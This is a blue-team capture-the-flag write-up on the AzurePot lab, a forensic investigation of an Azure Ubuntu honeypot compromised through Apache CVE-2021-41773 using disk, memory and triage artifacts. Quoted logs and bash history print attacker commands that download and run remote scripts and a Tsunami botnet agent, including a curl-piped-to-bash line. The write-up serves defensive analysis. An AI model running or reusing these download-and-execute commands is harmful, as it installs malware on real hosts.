

# AzurePot Lab

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [VHD File](#vhd-file)
- [UAC File](#uac-file)
- [Mem File](#mem-file)
- [Attack Chain](#attack-chain)
  * [Attack Tree](#attack-tree)
- [Artifacts](#artifacts)
- [Lab Insights](#lab-insights)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/azurepot/](https://cyberdefenders.org/blueteam-ctf-challenges/azurepot/)

Suggested tools: FTK Imager, Notepad++, `grep`, `awk`

Tactics: Execution, Defense Evasion, Command and Control

# Scenario

This Ubuntu Linux honeypot was deployed in Azure in early October to monitor activities related to the exploitation of CVE-2021-41773.

Initially, the system attracted a significant number of cryptocurrency miners. To mitigate this, a cron script was implemented to remove files named "`kinsing`" in the `/tmp` directory. This action was taken to prevent these miners from interfering so that more interesting activities could be observed.

There are three key files available:

- **`sdb.vhd.gz`**: This file is a Virtual Hard Disk (VHD) of the main drive, obtained through an Azure disk snapshot.
- **`ubuntu.20211208.mem.gz`**: This file is a memory dump created using Lime.
- **`uac.tgz`**: This file contains the results of User Account Control (UAC) running on the system.

The artifacts were collected in the following order: the drive was snapshotted first, followed by the memory dump, and finally, the UAC results were gathered.

# VHD File

Q1- There is a script that runs every minute to do cleanup. What is the name of the file?

Answer: `.remove.sh`

Reason: Defenders on the AzurePot honeypot suppressed low-value miner activity using a root-owned cron job that ran every minute and invoked a hidden script, `/root/.remove.sh`, installed per the crontab comment on `Mon Oct 11 20:05:59 2021 UTC` (Coordinated Universal Time). The script deleted cryptomining artifacts such as files named `kinsing` from `/tmp`, keeping the honeypot free to capture more advanced attacker behavior instead of persistent opportunistic mining.

```python
[/mnt/…/var/spool/cron/crontabs]
$ cat root 
<SNIP>
* * * * * /root/.remove.sh
```

Q2- The script in Q1 terminates processes associated with two Bitcoin miner malware files. What is the name of 1st malware file?

Answer: `kinsing`

Reason: The script `/root/.remove.sh` located processes for termination by searching `ps -ef` output for the filename patterns `kinsing` and `kdevtmp`, restricted to processes running from `/tmp`, then killed each matching process identifier (PID) with `kill -9`. It also set ownership of remaining `/tmp/k*` files to `root:root` and applied read-only permissions (`chmod 444`), likely preventing the miner from respawning or overwriting its binary before the next cleanup cycle.

```bash
#!/bin/bash
for PID in `ps -ef | egrep "kinsing|kdevtmp" | grep "/tmp"  | awk '{ print $2 }'`
do
        kill -9 $PID
done
chown root.root /tmp/k*
chmod 444 /tmp/k*
```

Q3- The script changes the permissions for some files. What is their new permission? Please enter a numeric answer.

Answer: `444`

Reason: After terminating any running `kinsing`/`kdevtmp` processes, `/root/.remove.sh` applied the numeric permission mode `444` (read-only for owner, group, and others, with no write or execute bits set) to all matching files under `/tmp/k*` via `chmod 444 /tmp/k*`, effectively preventing the miner binaries from being re-executed or overwritten until the next cron cycle.

Q4- What is the SHA256 of the botnet agent file?

Answer: `0e574fd30e806fe4298b3cbccb8d1089454f42f52892f87554325cb352646049`

Reason: A previously unidentified binary named `dk86` was recovered from `/var/tmp` on the honeypot, alongside `cloud-init` and `systemd-private` working directories. Analysts computed its SHA256 (Secure Hash Algorithm 256-bit) hash to serve as a unique identifier for the botnet agent, enabling future correlation against threat intelligence and memory or process artifacts on the host.

Q5- What is the name of the botnet in Q4?

Answer: Tsunami

Reason: A VirusTotal lookup of the SHA256 hash `0e574fd30e806fe4298b3cbccb8d1089454f42f52892f87554325cb352646049` returned family labels of `tsunami`, `kaiten`, and `cve202144228`, identifying the `/var/tmp/dk86` binary as a variant of the Tsunami botnet, also historically known as Kaiten, an Internet Relay Chat (IRC) controlled Linux Distributed Denial of Service (DDoS) bot family. The sample was delivered via exploitation of Common Vulnerabilities and Exposures (CVE) 2021-44228 (Log4Shell) rather than the CVE-2021-41773 Apache path traversal vulnerability noted in the lab's initial scenario, suggesting the honeypot attracted opportunistic exploitation across multiple concurrently disclosed 2021 vulnerabilities.



Q6- What IP address matches the creation timestamp of the botnet agent file in Q4?

Answer: `141.135.85.36`

Reason: The `dk86` botnet agent, with an on-disk creation timestamp of `Nov 11 2021`, matches source client IP `141.135.85.36:51774` and later ephemeral ports across the same session, found in `error_log` `mod_dumpio` trace entries executing a Common Gateway Interface (CGI) injected bash command chain. This is consistent with exploitation of the Apache CGI path traversal vulnerability (CVE-2021-41773) to achieve remote command execution, followed by staged retries adjusting the download path (`dk86` to `/tmp/dk86`) until the payload was successfully saved (`48748` bytes, `19:09:29 UTC`) and executed.

```python
# ls -lah
total 68K
drwxrwxrwt  5 root   root   4.0K Dec  8  2021 .
drwxr-xr-x 13 root   root   4.0K Sep 28  2021 ..
drwxrwxrwt  2 root   root   4.0K Oct  9  2021 cloud-init
-rwxr-xr-x  1 daemon daemon  48K Nov 11  2021 dk86

# /mnt/azurepot_disk/var/log/apache2
# grep -i ".\/dk86" error_log
[Thu Nov 11 19:07:41.956674 2021] [dumpio:trace7] [pid 804:tid 139978797401856] mod_dumpio.c(103): [client 141.135.85.36:51774] mod_dumpio:  dumpio_in (data-HEAP): echo; wget -O dk86 http://138.197.206.223:80/wp-content/themes/twentysixteen/dk86; chmod +x dk86; ./dk86 &;
[Thu Nov 11 19:07:41.962142 2021] [cgi:error] [pid 804:tid 139978797401856] [client 141.135.85.36:51774] AH01215: /bin/bash: line 1: `echo; wget -O dk86 http://138.197.206.223:80/wp-content/themes/twentysixteen/dk86; chmod +x dk86; ./dk86 &;': /bin/bash
[Thu Nov 11 19:07:55.978392 2021] [dumpio:trace7] [pid 803:tid 139978789009152] mod_dumpio.c(103): [client 141.135.85.36:51800] mod_dumpio:  dumpio_in (data-HEAP): echo; /usr/bin/wget -O dk86 http://138.197.206.223:80/wp-content/themes/twentysixteen/dk86; chmod +x dk86; ./dk86 &;
```

Q7- What URL did the attacker use to download the botnet agent?

Answer: `hxxp://138.197.206.223:80/wp-content/themes/twentysixteen/dk86`

Reason: This URL was directly observed in the Apache `error_log` CGI command injection entries associated with attacker IP `141.135.85.36`, retrieving the `dk86` Tsunami botnet agent from a compromised or attacker-controlled WordPress theme directory path (`wp-content/themes/twentysixteen/`) on host `138[.]197.206.223`, a hosting pattern commonly used to disguise malware staging as legitimate CMS asset files.

Q8- What is the name of the file that the attacker downloaded to execute the malicious script and subsequently remove itself?

Answer: `.install`

Reason: Analysis of the Apache `error_log` revealed a heavily obfuscated, doubly base64-encoded command injection attempt originating from a CGI request. The decoded payload set `PATH=/sbin:/bin:/usr/sbin:/usr/bin:/usr/local/bin` and issued `curl -s hxxp://116.203.212.184/1010/b64.php` with basic authentication credentials (`client:%@123-456@%`) to retrieve and execute a secondary staged script, saved locally as `.install`, a hidden filename chosen to blend in with legitimate dotfiles. The decoded second-stage payload concluded with `rm -rf .install`, a self-deletion routine intended to remove the dropper from disk immediately after execution to hinder file-based forensic recovery. It is recommended to use an efficient application to parse the huge `error_log`.


Q9- The attacker downloaded SH scripts. What are the names of these files?

Answer: `0_cron.sh`, `0_linux.sh`, `ap.sh`

Reason: The Apache `error_log` recorded three separate shell script downloads via CGI command injection across two distinct sessions. On `Sun Nov 07 2021`, client `40.117.148.240` retrieved `0_cron.sh` at `10:39:12 UTC` and `0_linux.sh` at `10:52:33 UTC`, both from staging host `hxxp://103.55.36.245`, each followed by `chmod 777` and direct execution with `sh`. Separately, on `Mon Dec 06 2021` at `05:12:16 UTC`, client `62.76.41.46` executed a fallback `curl`/`wget` piped-to-bash one-liner retrieving `ap.sh` from staging host `hxxp://45.137.155.55`, avoiding a local write-then-execute step by piping the downloaded script directly into bash.

```bash
# Session 1: 40.117.148.240
wget http://103.55.36.245/0_cron.sh; chmod 777 0_cron.sh; sh 0_cron.sh
wget http://103.55.36.245/0_linux.sh; chmod 777 0_linux.sh; sh 0_linux.sh

# Session 2: 62.76.41.46 (fallback, piped execution)
curl -s http://45.137.155.55/ap.sh | bash
```

# UAC File

Q10- Two suspicious processes were running from a deleted directory. What are their PIDs?

Answer: `6388`, `20645`

Reason: Live response artifact `lsof_-nPl.txt`, collected during Unix-like Artifacts Collector (UAC) triage, revealed two processes, `sleep` (PID `6388`) and `sh` (PID `20645`), both with a current working directory of `/var/tmp/.log/101068/.spoollog`, a path marked `(deleted)` by the kernel. This indicates the directory had been unlinked from the filesystem while these processes still held open references to it, a common technique for hiding an actively running payload's working directory from standard filesystem enumeration while the process remains resident in memory.

```python
# [~/…/ccd_azurepot/uac/live_response/process]
$ grep deleted lsof_-nPl.txt
sleep      6388              1  cwd       DIR               8,17        0     528743 /var/tmp/.log/101068/.spoollog (deleted)
sh        20645              1  cwd       DIR               8,17        0     528743 /var/tmp/.log/101068/.spoollog (deleted)
```

Q11- What is the suspicious command line associated with the PID that ends with 45 in Q10?

Answer: `sh .src.sh`

Reason: Live response artifact `ps_-efl.txt` shows PID `20645`, the parent of PID `6388`, running as user `daemon` since `Nov 14`, with command line `sh .src.sh`, a hidden shell script invocation consistent with a persistence or beaconing loop. This is further corroborated by its child process (PID `6388`) executing `sleep 300`, suggesting `.src.sh` runs in a continuous sleep-and-repeat cycle, likely re-checking in with a command and control (C2) server or re-executing its payload every five minutes.

```python
$ grep 20645 ps_-efl.txt 
0 S daemon    6388 20645  0  80   0 -  1134 hrtime 18:50 ?        00:00:00 sleep 300
0 S daemon   20645     1  0  80   0 -  1158 wait   Nov14 ?        03:01:59 sh .src.sh
```

Q12- UAC gathered some data from the second process in Q10. What is the remote IP address and remote port that was used in the attack?

Answer: `116.202.187.77:56590`

Reason: Under UAC's live response collection for PID `20645` (`sh .src.sh`), the process's `/proc/<pid>/environ` file preserved CGI environment variables inherited from the Apache request that spawned it, revealing `REMOTE_ADDR=116.202.187.77` and `REMOTE_PORT=56590`. This directly ties this persistent, deleted-directory-resident process back to the specific attacker connection that originally triggered its execution via the web server's CGI handler.

```python
# [~/…/live_response/process/proc/20645]
$ cat environ.txt | tr '\0' '\n' | grep REMOTE 
REMOTE_ADDR=116.202.187.77
REMOTE_PORT=56590
```

Q13- Which user was responsible for executing the command in Q11?

Answer: `daemon`

Reason: Per the `ps_-efl.txt` output reviewed for Q11, PID `20645`'s process entry lists the executing user as daemon, the low-privilege system account under which the Apache web server's CGI handler operates by default, indicating the attacker's `sh .src.sh` persistence process inherited the web server's own service account privileges rather than escalating to root at this stage.

Q14- Two suspicious shell processes were running from the tmp folder. What are their PIDs?

Answer: `15853`, `21785`

Reason: The `lsof_-nPl.txt` live response artifact identified two additional `sh` processes, PID 15853 and PID 21785, both with a current working directory of `/tmp` (as opposed to the deleted `/var/tmp/.log/101068/.spoollog` path associated with PID 20645), indicating separate shell-based persistence or execution activity staged directly out of the world-writable `/tmp` directory rather than the hidden, unlinked location used by the other malicious process.

# Mem File

Q15- What is the MAC address of the captured memory?

Answer: `00:22:48:26:3b:16`

Reason: Since building a matching Volatility 3 Intermediate Symbol File (ISF) and a working Volatility 2 Linux profile both proved unreliable in this environment (no pre-built symbol table existed for the exact `5.4.0-1059-azure` kernel build, and the locally-generated `module.dwarf` hit a `dwarfdump` output-format incompatibility with Volatility 2's parser), the Media Access Control (MAC) address was instead recovered via direct string extraction against the raw memory image:

```python
$ strings ubuntu.20211208.mem | grep -oE '([0-9A-Fa-f]{2}:){5}[0-9A-Fa-f]{2}' | sort -u
00:00:00:00:00:00
00:00:00:FF:FF:FF
00:1b:0d:e6:57:c0
00:1b:0d:e6:58:40
00:22:48:26:3b:16
ff:ff:ff:ff:ff:ff
```

Q16- Based on Bash history. The attacker downloaded the SH script. What is the name of the file?

Answer: `unk.sh`

Reason: Because no pre-built Volatility 3 Intermediate Symbol File (ISF) existed locally for this honeypot's exact kernel build (Linux version `5.4.0-1059-azure`, Ubuntu 18.04, build `5.4.0-1059.62~18.04.1`), and an attempt to construct a Volatility 2 profile from the mounted disk's own `System.map-5.4.0-1059-azure` and freshly compiled `module.dwarf` failed due to a `dwarfdump` output-format incompatibility with Volatility 2's legacy parser, the correct symbol table was instead sourced from the community `Abyss-W4tcher/volatility3-symbols` GitHub repository at path `Ubuntu/amd64/5.4.0/1059/azure/Ubuntu_5.4.0-1059-azure_5.4.0-1059.62~18.04.1_amd64.json.xz`, whose exact build suffix matched the memory image's banner string precisely.

Once placed in Volatility 3's `symbols/linux/` directory, the `linux.bash.Bash` plugin successfully parsed the recovered bash history, revealing a session at `2021-12-08 16:12:31 UTC` (PID `4205`) in which the attacker executed `wget http://88.218.227.141/wget.sh` followed immediately by `wget http://185.191.32.198/unk.sh`, then later `cat wget.sh` and `rm wget.sh`. This indicates the attacker downloaded two separate shell scripts from two different staging hosts within the same command sequence, inspected and deleted one (`wget.sh`) while presumably retaining or executing the second (`unk.sh`).

```python
$ vol.py -f ubuntu.20211208.mem linux.bash.Bash | grep "\.sh" | grep wget
4205    bash    2021-12-08 16:12:31.000000 UTC  cat wget.sh 
4205    bash    2021-12-08 16:12:31.000000 UTC  rm wget.sh 
4205    bash    2021-12-08 16:12:31.000000 UTC  wget http://88.218.227.141/wget.sh
4205    bash    2021-12-08 16:12:31.000000 UTC  wget http://185.191.32.198/unk.sh
```

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| 2021-10-11 20:05:59 | Persistence | Defenders installed a root crontab entry running `/root/.remove.sh` every minute to suppress cryptominer noise on the honeypot | T1053.003 |
| 2021-11-07 10:39:12 | Execution | Attacker `40.117.148.240` used CGI command injection to download and execute 0_cron.sh from hxxp://103[.]55.36.245/0_cron.sh | T1190, T1059.004 |
| 2021-11-07 10:52:33 | Execution | Same attacker downloaded and executed 0_linux.sh from hxxp://103[.]55.36.245/0_linux.sh via the same CGI vector | T1190, T1059.004 |
| 2021-11-11 19:07:41 | Execution | Attacker `141.135.85.36` exploited Apache CGI path traversal (CVE-2021-41773) to download dk86 (Tsunami/Kaiten botnet agent) from hxxp://138[.]197.206.223:80/wp-content/themes/twentysixteen/dk86 | T1190 |
| 2021-11-11 19:09:29 | Execution | dk86 payload successfully saved to `/tmp/dk86` (48748 bytes) and executed | T1105, T1584 |
| 2021-12-06 05:12:16 | Execution | Attacker `62.76.41.46` used a fileless curl||wget piped-to-bash one-liner to execute ap.sh directly from `45.137.155.55` without writing to disk first | T1190, T1059.004 |
| 2021-12-08 16:12:31 | Command and Control | Attacker session (PID 4205) downloaded wget.sh from hxxp://88[.]218.227.141/wget.sh, inspected it, then deleted it | T1105 |
| 2021-12-08 16:12:31 | Defense Evasion | Same session downloaded second script unk.sh from hxxp://185[.]191.32.198/unk.sh | T1105, T1027 |
| (ongoing, observed at collection) | Persistence | Two processes (sleep PID 6388, sh PID 20645) found running with a deleted working directory `/var/tmp/.log/101068/.spoollog`, executing hidden .src.sh in a repeating sleep 300 loop tied to originating connection `116.202.187.77:56590` | T1070.004, T1053 |
| (ongoing, observed at collection) | Persistence | Two additional sh processes (PID 15853, PID 21785) found running directly from world-writable `/tmp` | T1036, T1053 |

## Attack Tree

```python
[CVE-2021-41773 Apache CGI Path Traversal]  ← multiple external attackers → AzurePot honeypot
    └── CGI command injection via mod_dumpio-logged requests
        ├── [Stage 1 — Opportunistic Cryptomining]
        │   └── kinsing / kdevtmp processes launched in /tmp  ← suppressed every minute by defender cron `.remove.sh`
        ├── [Stage 2 — 2021-11-07 Attacker 40[.]117.148.240]
        │   └── 103[.]55.36.245 staging host
        │       ├── hxxp://103[.]55.36.245/0_cron.sh  ← downloaded, chmod 777, executed
        │       └── hxxp://103[.]55.36.245/0_linux.sh  ← downloaded, chmod 777, executed
        ├── [Stage 3 — 2021-11-11 Attacker 141[.]135.85.36]
        │   └── hxxp://138[.]197.206.223/wp-content/themes/twentysixteen/dk86
        │       └── dk86 (Tsunami/Kaiten botnet) saved to /tmp/dk86 ← executed, SHA256 0e574fd3...046049
        ├── [Stage 4 — 2021-12-06 Attacker 62[.]76.41.46]
        │   └── (curl||wget) 45[.]137.155.55/ap.sh | bash  ← fileless execution, no disk write
        └── [Stage 5 — 2021-12-08 Persistence session, PID 4205]
            ├── hxxp://88[.]218.227.141/wget.sh  ← downloaded, cat'd, then rm'd
            └── hxxp://185[.]191.32.198/unk.sh  ← downloaded, retained
                └── hidden persistence loop
                    ├── /var/tmp/.log/101068/.spoollog/.src.sh (deleted dir)  ← sh PID 20645, sleep 300 child PID 6388, C2 116[.]202.187.77:56590
                    └── /tmp (sh PID 15853, PID 21785)
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Persistence | Defender cleanup script | `/root/.remove.sh` (cron * * * * *, installed 2021-10-11 20:05:59) |
| Persistence | Attacker hidden process cwd | `/var/tmp/.log/101068/.spoollog` (deleted) |
| Persistence | Attacker hidden script | .src.sh |
| Persistence | Rogue sh PIDs (world-writable `/tmp`) | 15853, 21785 |
| Malware | Botnet agent path | `/var/tmp/dk86` |
| Malware | Botnet agent SHA256 | `0e574fd30e806fe4298b3cbccb8d1089454f42f52892f87554325cb352646049` |
| Malware | Botnet family | Tsunami / Kaiten (VT labels: tsunami, kaiten, cve202144228) |
| Malware | Cryptominer filename markers | kinsing, kdevtmp |
| Downloaded Scripts | 0_cron.sh | hxxp://103[.]55.36.245/0_cron.sh |
| Downloaded Scripts | 0_linux.sh | hxxp://103[.]55.36.245/0_linux.sh |
| Downloaded Scripts | ap.sh | hxxp://45[.]137.155.55/ap.sh (piped to bash, no disk write) |
| Downloaded Scripts | wget.sh | hxxp://88[.]218.227.141/wget.sh |
| Downloaded Scripts | unk.sh | hxxp://185[.]191.32.198/unk.sh |
| Downloaded Scripts | Second-stage installer | .install (self-deleting, double base64-encoded) |
| C2 / Staging Infrastructure | dk86 staging host | `138.197.206.223`:80 |
| C2 / Staging Infrastructure | Base64 stager host | `116.203.212.184` (`/1010/b64.php`, basic auth client:%@123-456@%) |
| C2 / Staging Infrastructure | Persistence loop C2 | `116.202.187.77`:56590 |
| Attacker IPs | 2021-11-07 session | `40.117.148.240` |
| Attacker IPs | 2021-11-11 session | `141.135.85.36` |
| Attacker IPs | 2021-12-06 session | `62.76.41.46` |
| Host Indicators | Kernel version | Linux 5.4.0-1059-azure (Ubuntu 18.04) |
| Host Indicators | Honeypot NIC MAC | 00:22:48:26:3b:16 (Microsoft/Hyper-V OUI, eth0) |
| Host Indicators | UAC collection timestamp | 2021-12-08 20:25:03 |

# Lab Insights

- Defensive tooling can itself become a confound. The .remove.sh cron job, installed to suppress cryptominer noise, meant the disk and memory captures reflect a filtered view of attacker activity, low-effort opportunistic miners were being actively erased in near-real-time, which is worth flagging in any writeup since "absence of evidence" for kinsing-style activity doesn't mean absence of attempts.
- A single vulnerable CGI endpoint attracted a rotating cast of unrelated actors over two months. Distinct IPs, distinct staging infrastructure, and even a mismatched CVE reference (Tsunami/Kaiten labeled with a Log4Shell CVE tag despite the honeypot's actual CVE-2021-41773 exposure) all point to the same lesson: internet-facing CVEs get scanned and exploited by many independent, often low-sophistication actors rather than one coherent campaign, a honeypot's timeline is a sampling of internet background noise as much as it is a single incident.
- Tooling incompatibility cost more time than the actual analysis. Neither Volatility 2 (blocked by a dwarfdump output-format mismatch against a legacy parser) nor Volatility 3 (missing a pre-built ISF for this exact Azure kernel build) worked out of the box; the eventual fix required locating a community-maintained symbol repository with an azure-specific, build-suffix-exact match. This underscores why strings/grep brute-force approaches remain valuable as a fast, tool-agnostic fallback that can corroborate (and sometimes outpace) full memory-forensics tooling.
- Hidden persistence favored unlinked directories over file-permission tricks. Unlike the disk-side miner suppression (which relied on chmod 444), the live memory-resident persistence mechanism (sh/sleep pair tied to a deleted .spoollog directory) used directory unlinking to hide its working files from standard filesystem listings while remaining fully resident and running, a distinct anti-forensic technique worth recognizing as separate from simple hidden-file or permission-based concealment.